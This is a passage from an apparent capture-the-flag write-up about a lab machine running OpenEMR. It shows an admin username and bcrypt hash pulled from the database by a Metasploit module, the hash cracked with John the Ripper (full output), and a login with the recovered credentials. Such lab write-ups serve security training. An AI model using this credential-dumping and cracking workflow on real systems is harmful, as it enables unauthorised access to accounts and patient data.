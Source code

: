 We rerun our module and get the looted data, this time we have the username and
a password hash!

    :::text
    kali@kali:~/$ cat /home/kali/.msf4/loot/20200516080433_default_10.10.10.188_openemr.users_se_390635.csv
    id,username,password,salt,last_update,password_history1,salt_history1,password_history2,salt_history2
    1,openemr_admin,$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.,$2a$05$l2sTLIG6GTBeyBf7TAKL6A$,2019-11-21 06:38:40,"","","",""

We load the has inside `john` the ripper and quickly get the password `xxxxxx`.

    :::text
    $ john hash
    Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
    Use the "--format=bcrypt-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 32 for all loaded hashes
    Will run 8 OpenMP threads
    Proceeding with single, rules:Single
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Almost done: Processing the remaining buffered candidate passwords, if any.
    Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
    xxxxxx           (?)
    1g 0:00:00:00 DONE 2/3 (2020-05-16 14:07) 4.347g/s 5008p/s 5008c/s 5008C/s stinky..88888888
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

We can now connect on OpenEMR using our credentials `openemr_admin:xxxxxx`.

![OpenEMR authenticated](/media/2020.10/cache_06.png){: .image-process-article-image}
